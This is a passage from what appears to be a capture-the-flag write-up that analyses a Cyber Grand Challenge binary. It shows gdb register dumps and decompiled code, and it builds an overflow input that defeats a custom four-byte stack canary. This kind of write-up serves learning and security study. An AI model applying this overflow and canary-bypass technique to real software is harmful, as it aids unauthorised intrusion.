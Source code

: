 
If we send exactly 20 bytes, we see it compares ECX = 'l' and EAX = 0x00 because we have the null at the end of our 20 bytes of 'A's in the first byte of the canary:


```
[----------------------------------registers-----------------------------------]
EAX: 0x0 
ECX: 0x6c ('l')
[-------------------------------------code-------------------------------------]
=> 0x804832b:	cmp    eax,ecx
[------------------------------------------------------------------------------]
0x0804832b in ?? ()
gdb-peda$ 
```


You can use <a href="https://github.com/CyberGrandChallenge/cgc2elf" target="_blank">cgc2elf</a> to convert CGC binary format files to ELF format and IDA Pro will load them up nicely. Here's the function we exploit. You can see it matches exactly our expectations, including the check_canary() call seems to have an argument of "4". Probably canary length.


```
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf; // [sp+2Fh] [bp-29h]@1
  char canary; // [sp+43h] [bp-15h]@1

  set_canary(&canary, "lddwDrwhkTEBSya_", 17);
  read_input(&buf);
  if ( !check_canary(&canary, "lddwDrwhkTEBSya_", 4) )
  {
    printmsg("hacking detected, see ya");
    terminate(-1);
  }
  return printmsg("canary ok");
}
```


So if we use an input string of 'A' \* 20 + 'lddw' + 'A' \* 30 we see we successfully pass the canary validation because it only checks 32 bits and 'lddw' is in our canary location. Cool!


```
gdb-peda$ r
Starting program: /vagrant/easy-prasky-with-buffalo-on-bing 
AAAAAAAAAAAAAAAAAAAAlddw
[----------------------------------registers-----------------------------------]
EAX: 0x6c ('l')
ECX: 0x6c ('l')
EIP: 0x804832b (cmp    eax,ecx)
[-------------------------------------code-------------------------------------]
=> 0x804832b:	cmp    eax,ecx
[------------------------------------------------------------------------------]
0x0804832b in ?? ()
gdb-peda$ 

```
